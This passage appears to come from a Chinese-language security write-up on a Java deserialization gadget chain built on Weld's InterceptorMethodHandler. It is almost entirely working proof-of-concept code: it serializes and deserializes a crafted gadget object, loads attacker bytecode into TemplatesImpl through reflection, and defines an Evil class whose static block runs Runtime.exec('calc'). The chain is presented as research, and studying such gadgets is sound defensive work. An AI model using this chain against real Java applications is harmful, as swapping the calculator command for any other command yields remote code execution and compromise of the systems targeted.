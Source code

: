 ```
        HashMap map = new HashMap();
        map.put("heihu577", "heihu577");
        DefaultInvocationContextFactory factory = new DefaultInvocationContextFactory();
        InterceptorInstantiator interceptorInstantiator = new InterceptorInstantiator() {
            public Object createFor(InterceptorReference paramInterceptorReference) {
                return evilObj;
            }
        };
        InterceptorMethodHandler gadget = new InterceptorMethodHandler(map, metadata, model, interceptorInstantiator, factory);
        new ObjectOutputStream(new FileOutputStream("D:/1.ser")).writeObject(gadget);
        new ObjectInputStream(new FileInputStream("D:/1.ser")).readObject();
    }

    // 通过反射创建实例
    public static <T> T getObjByReflection(Class<T> clazz, Class[] args, Object[] argsValue) throws Exception {
        Constructor declaredConstructor = clazz.getDeclaredConstructor(args);
        declaredConstructor.setAccessible(true);
        return (T) declaredConstructor.newInstance(argsValue);
    }

    public static TemplatesImpl getTemplatesImpl() throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        Field bytecodes = templates.getClass().getDeclaredField("_bytecodes"); // 最终调用到 defineClass 方法中加载类字节码
        Field name = templates.getClass().getDeclaredField("_name"); // 放置任意值
        Field tfactory = templates.getClass().getDeclaredField("_tfactory");
        name.setAccessible(true);
        bytecodes.setAccessible(true);
        tfactory.setAccessible(true);
        byte[][] myBytes = new byte[1][];
        myBytes[0] = Repository.lookupClass(Evil.class).getBytes(); // 这个恶意类必须继承`com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`抽象类, 之前有分析过, 就不提及了.
        bytecodes.set(templates, myBytes);
        name.set(templates, "");
        tfactory.set(templates, new TransformerFactoryImpl());
        return templates;
    }
}

```  
  
切记是 TemplatesImpl, 给出所加载的恶意类:  
```
package com.heihu577;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Evil extends AbstractTranslet {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }

```